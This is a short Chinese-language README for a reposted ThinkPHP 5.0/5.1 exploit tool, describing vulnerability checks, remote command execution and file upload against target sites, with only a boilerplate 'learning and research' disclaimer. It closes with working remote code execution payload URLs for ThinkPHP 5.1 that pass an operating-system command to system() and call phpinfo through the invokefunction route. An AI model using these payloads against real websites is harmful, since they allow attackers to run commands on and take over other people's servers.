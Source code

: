# thinkphp_exp-v5.0|这是找的资源，不知道出处，拿着用吧，侵删
thinkphp_exp-v5.0
2018.12.11

说明：（以下内容是原作者所写）

漏洞检测，5.0和5.1都可以检测。

命令执行，文件上传只支持5.0版本tp。5.1和5.0利用大同小异，不打算写。这只是个练手作品，也勉强可以用。



还是老样子，用bat打开，不然看不到日志输出。



url:需要加http，不支持https检测。

命令：命令就是系统命令，各位都懂。

文件名：上传到服务器的文件名。

好多回显没处理，勉强用吧

网站被我不小心重置系统，月底重开。

www.safe6.cn

免责声明：
safe出品的所有程序，仅限用于学习和研究目的；不得将上述内容用于商业或者非法用途，否则，一切后果请用户自负。

5.1 的exp



命令执行:
http://url/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令


代码执行:
http://url/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1


